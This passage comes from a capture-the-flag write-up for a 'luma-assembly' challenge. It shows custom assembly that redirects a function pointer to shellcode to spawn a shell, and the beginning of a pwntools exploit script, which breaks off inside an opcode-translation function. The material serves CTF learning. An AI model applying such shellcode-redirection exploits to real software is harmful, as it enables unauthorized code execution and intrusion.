 Now just set each register to a value that is not null and then `push` 6 times having the 6th `push` be `push l1`(l1 is `0x400000`). After all this, `lar` function pointer will be the address to the shellcode.


```
INC l0
INC l0
NA l4
NA l5
PUSH l0
PUSH l2
PUSH l3
PUSH l4
PUSH l5
PUSH l1
LAR l0, l0 // call shellcode and spawn shell
```

### Profit

This challenge was really cool and interesting but the reversing part was pretty tedious. In the end, we `MiniMcStein` were the only team to solve it. It took me a total of more that 5 hours to solve this(I think). It was kinda fun to think of way to set the registers.

### Exploit

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./luma-assembly_patched")

context.binary = exe
context.log_level = "debug"

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("bruh", 30880)

    return r

def convert_to_luma_asm(data):
    data = data.replace("XOR", "LAR")
    data = data.replace("IDK", "SG")
    data = data.replace("RSH", "DRA")
    data = data.replace("AND", "ZS")
    data = data.replace("OR", "SA")
    data = data.replace("ADD", "PA")
    data = data.replace("SUB", "MN")
    data = data.replace("DIV", "SLE")
    data = data.replace("MOD", "MINE")
    data = data.replace("MUL", "STEL")
    data = data.replace("MOV", "MT")
    data = data.replace("FLIP", "NA")
    data = data.replace("FLIP2", "MQ")
    data = data.replace("INC", "UAR")
    data = data.replace("DEC", "RY")
    data = data.replace("RET", "NIM")
    data = data.replace("EXIT", "BRAILA")
```